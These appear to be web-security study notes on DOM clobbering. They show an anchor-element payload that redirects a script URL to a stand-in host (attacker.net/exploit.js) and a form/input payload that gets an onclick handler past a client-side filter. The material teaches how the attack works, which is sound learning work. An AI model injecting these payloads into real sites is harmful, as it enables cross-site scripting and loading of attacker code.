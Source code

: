 exploit: inject HTML to clobber `someObject` reference with `anchor element`

```
<a id=someObject><a id=someObject name=url href=//attacker.net/exploit.js>

```

As the two anchors use the same ID, the DOM groups them together in a DOM collection. The DOM clobbering vector then overwrites the `someObject` reference with this DOM collection. A `name` attribute is used on the last anchor element in order to clobber the `url` property of the `someObject` object, which points to an external script.

- Another common technique is to use a `form` element along with an element such as `input` to clobber DOM properties.
- `example:`
clobbering the `attributes` property enables you to bypass client-side filters that use it in their logic. Although the filter will enumerate the `attributes` property, it will not actually remove any attributes because the property has been clobbered with a DOM node. As a result, you will be able to inject malicious attributes that would normally be filtered out
`<form onclick=alert(1)><input id=attributes>Click me`
In this case, the client-side filter would traverse the DOM and encounter a whitelisted `form` element. Normally, the filter would loop through the `attributes` property of the `form` element and remove any blacklisted attributes. However, because the `attributes` property has been clobbered with the `input` element, the filter loops through the `input` element instead. As the `input` element has an undefined length, the conditions for the `for` loop of the filter (for example `i<element.attributes.length`) are not met, and the filter simply moves on to the next element instead. This results in the `onclick` event being ignored altogether by the filter, which subsequently allows the `alert()` function to be called in the browser.

## [Prevention DOM-CLobbering attack](https://portswigger.net/web-security/dom-based/dom-clobbering)